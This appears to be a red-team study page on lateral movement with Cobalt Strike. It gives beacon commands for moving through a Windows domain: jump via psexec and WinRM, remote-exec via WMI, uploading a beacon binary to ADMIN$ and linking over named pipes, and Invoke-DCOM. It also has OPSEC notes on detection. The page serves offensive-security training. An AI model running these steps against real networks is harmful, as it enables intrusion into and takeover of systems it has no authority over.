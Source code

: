```yaml
---
title: Lateral Movement
category: 00 Red Team
order: 7
---
```


Moving laterally between computers in a domain is important for accessing sensitive information/materials, and obtaining new credentials. 

In this section we are goingto see how do a lateral movement with Cobalt Strike

# Execution commands

Cobalt Strike provides three strategies for executing Beacons, code or commands on remote targets.

To execute commands remotely we need admin privileges.

> **OPSEC Note**: A common way of testing local admin access on a target is to list the C$ directory.
>
>`beacon> ls \\dc01\c$`

## Jump 

`jump` command will spawn a beacon payload on the remote target, and if we use a P2P listener, will connect automatically.

Usage of `jump` command:
```
jump [method] [target] [listener]
```

We can use different methods:

```
beacon> jump

Beacon Remote Exploits
======================

    Exploit                   Arch  Description
    -------                   ----  -----------
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM
```

## Remote-exec

`remote-exec` command will simply execute commands on a remote target.

hey require more manual work to manage the payload, but do offer a wider degree of control over what gets executed on the target. You also need to connect to P2P Beacons manually using `connect` or `link`.

```
beacon> remote-exec

Beacon Remote Execute Methods
=============================

    Methods                         Description
    -------                         -----------
    psexec                          Remote execute via Service Control Manager
    winrm                           Remote execute via WinRM (PowerShell)
    wmi                             Remote execute via WMI
```

## Powershell and execute-assembly

We can specify the target in `powershell` and `execute-assembly` commands.

```
baecon> execute-assembly /path/payload.exe -computername=dc01
```

```
baecon> powershell Get-ChildItem -computername=dc01
```

## Spawn


Notice that due to problems of **CoInitializeSecurity** COM object, a different security context for example another user can not be used in the same beacon process.

To that reason we need to spawn another beacon.

`spawn` and `spawnas` starts a new session with the provided credentials. 

```
beacon> spawn
```

# PowerShell Remoting

The `winrm` and `winrm64` methods can be used to use powershell remoting.

WinRM will return a **high integrity beacon running as the user** with which are going to be interacted.

```
# 64-bit target
beacon> jump winrm64 dc01 [P2P-Listener]

# 32-bit target
beacon> jump winrm dc01 [P2P-Listener]
```

> **Note**: We can use `Get-WmiObject` to determine the arhitecture of the remote system.


# PsExec

The `psexec` and `psexec64` commands, first a service binary is uploaded to the target system, then a starting windows service is created to execute that binary.

`psexec_psh` doesn't copy the binary to the target, but instead executes a PowerShell one-liner (always in 32-bit).

PsExec will return a beacon running by **SYSTEM**.

```
beacon> jump psexec64 dc01 [p2p-listener]
```

# Windows Management Instrumentation (WMI)

The `wmi` `remote-exec` method uses WMI's *process call create* to execute any command we specify on the target.

The most straight forward means of using this to upload a payload to the target system and use WMI to execute it.

```
beacon> cd \\dc01\ADMIN$
beacon> upload C:\p2p-smb-beacon.exe
beacon> remote-exec wmi dc01 C:\Windows\beacon.exe
```

After executing the beacon we will neeed to connect to it.

```
beacon> link dc01 \\dc01\pipe\[namepipe]
```

# Distributed Component Object Model (DCOM)

Beacon has no built-in capabilities to interact over DCOM, so we can use `Invoke-DCOM`.

* [https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1)


```
beacon> powershell-import .\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName dc01 -Method MMC20.Application -Command C:\Windows\beacon-smb.exe
beacon> link dc01
```

> **OPSEC Note**: `DCOM` is more complicated to detect, since each method works in a different way. If `MMC20.Application` method spawns a process, the spawned process will be a child of `mmc.exe`.
>
> `ProcessId: 952`
> `Image: C:\Windows\beacon-smb.exe`
> `ParentImage: C:\Windows\System32\mmc.exe`